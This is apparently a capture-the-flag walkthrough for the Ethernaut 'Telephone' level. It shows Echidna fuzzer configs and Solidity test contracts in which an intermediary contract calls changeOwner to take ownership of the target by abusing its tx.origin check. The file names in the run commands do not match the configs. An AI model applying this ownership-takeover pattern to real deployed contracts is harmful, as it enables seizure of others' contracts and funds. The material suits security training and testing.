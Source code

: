 # Telephone Walkthrough
This walkthrough requires interacting with the target via a different contract. This gives us two different ways in which we can run this test. The first way is to let our test contract call the attacker contract. The other way, which maybe more realistic, is to let the fuzzer call the attack contract. 

The objective is to take ownership of the target.

## Setup 1
Create the config.yaml:
```yaml
contractAddr: "0x4242"
sender: ["0x10000"]
deployer: "0x30000"
```

This is not strictly necessary as the contract will be deployed to the default address of `0x00a329c0648769a73afac7f9381e08fb43dbea72`. But to make things easier, I just decided to set the contract address to something smaller. The default deployer address is already `0x30000` but I wanted to make that explicit. I also wanted to make sure the sender address was one specific address. 

## Test Setup 1

In this test, we will use two contracts and the test contract's constructor to take ownership of the target.
```javascript
pragma solidity ^0.6.0;

import './Telephone.sol';

contract RingRing {
  Test phone = Test(0x4242);
  
  function pwn() public {
    phone.changeOwner(address(0x10000));
  }
}

contract Test is Telephone {
    RingRing ring;
  constructor() Telephone() public payable {
    // hint echidna
    ring = new RingRing();
  }

  function callPwn() public {
      ring.pwn();
  }

    function echidna_test_origin() public returns (bool) {
        if (tx.origin == owner) {
            return false;
        } else {
            return true;
        }
    }    
}
```

## Run Test
```shell
echidna-test --config config2.yaml Test2.sol --contract Test
```

## Setup 2
Create the config.yaml:
```yaml
contractAddr: "0x4242"
sender: ["0x10000"]
deployer: "0x30000"
multi-abi: true
```

This is not strictly necessary as the contract will be deployed to the default address of `0x00a329c0648769a73afac7f9381e08fb43dbea72`. But to make things easier, I just decided to set the contract address to something smaller. The default deployer address is already `0x30000` but I wanted to make that explicit. I also wanted to make sure the sender address was one specific address. 

The second line `multi-abi: true` is needed to allow the echidna to call into any contract with a known ABI.

## Test Setup 2
In this setup, the fuzzer will call public functions from both the Test contract and the RingRing contract.

```javascript
pragma solidity ^0.6.0;

import './Telephone.sol';

contract RingRing {
  Test phone = Test(0x4242);
  
  function pwn() public {
    phone.changeOwner(address(0x10000));
  }
}

contract Test is Telephone {
    RingRing ring;
  constructor() Telephone() public payable {
    // hint echidna
    ring = new RingRing();
  }


    function echidna_test_origin() public returns (bool) {
        if (tx.origin == owner) {
            return false;
        } else {
            return true;
        }
    }    
}
```

## Run Test
```shell
echidna-test --config config2.yaml Test2.sol --contract Test
```